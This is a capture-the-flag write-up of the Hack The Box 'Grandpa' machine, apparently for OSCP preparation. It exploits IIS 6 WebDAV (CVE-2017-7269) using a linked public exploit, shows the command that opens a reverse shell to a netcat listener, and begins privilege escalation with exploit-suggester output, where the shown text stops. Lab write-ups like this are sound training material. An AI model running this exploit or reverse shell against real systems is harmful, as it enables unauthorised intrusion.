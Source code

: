 
The only open port is 80, on which IIS 6 runs. Since I have not much information, I search for an exploit. There is the WebDAV remote code execution vulnerability (CVE-2017-7269). I found an exploit on GitHub:

[https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269)

# Exploitation

---

I use the exploit found above. I download and execute it (with python):

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/grandpa]
└─$ python exploit.py grandpa.htb 80 10.10.17.28 4444
PROPFIND / HTTP/1.1
Host: localhost
Content-Length: 1744
---snip---
```

After waiting a bit, a reverse shell spawns in my Netcat listener:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/grandpa]
└─$ nc -lvnp 4444               
listening on [any] 4444 ...
connect to [10.10.17.28] from (UNKNOWN) [10.10.10.14] 1032
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\network service

c:\windows\system32\inetsrv>c:\windows\system32\inetsrv>whoami
whoami
nt authority\network service
```

I cannot read the user flag (harry) so I need to escalate my privileges.

# Privilege Escalation

---

I used the windows exploit suggester:

```bash
Date: 20140812                          
CVE: CVE-2014-1819                          
KB: KB2993651                                                                    
Title: Vulnerabilities in Kernel-Mode Drivers Could Allow Elevation of Privilege
Affected product: Microsoft Windows Server 2003 x64 Edition Service Pack 2
Affected component:                    
Severity: Important                     
Impact: Elevation of Privilege                             
Exploit: n/a                                      
                                                           
Date: 20140812     
CVE: CVE-2014-1819                          
KB: KB2993651                                                                    
Title: Vulnerabilities in Kernel-Mode Drivers Could Allow Elevation of Privilege    
Affected product: Microsoft Windows Server 2003 for Itanium-based Systems Service Pack 2
Affected component:                              
```